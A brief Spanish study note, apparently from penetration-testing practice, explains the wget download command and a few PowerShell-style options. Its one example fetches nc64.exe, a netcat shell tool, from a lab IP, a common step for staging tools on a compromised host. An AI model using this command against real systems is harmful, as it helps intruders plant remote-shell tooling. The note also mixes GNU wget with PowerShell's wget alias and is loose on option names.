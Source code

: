 #wget

------

Es una herramienta de línea de comandos que permite **descargar archivos desde la web** usando HTTP, HTTPS o FTP.

```
wget http://IpOPagina/NombreDelArchivo
Ejemplo: wget http://10.10.16.16/nc64.exe
```

*Parametros opcionales*
``-outfile`` Esto es por si queremos cambiarle el nombre al archivo cuando se descargue, por ejemplo podemos usar `-outfile bunzo` para que el archivo que decargamos se llame bunzo

*Parametros opcionales windows*
`-UseBasicParsing`Le dice a PowerShell que **no use el motor de Internet Explorer** para interpretar la respuesta (lo cual no está disponible en muchos entornos) y que simplemente descargue el archivo de forma cruda.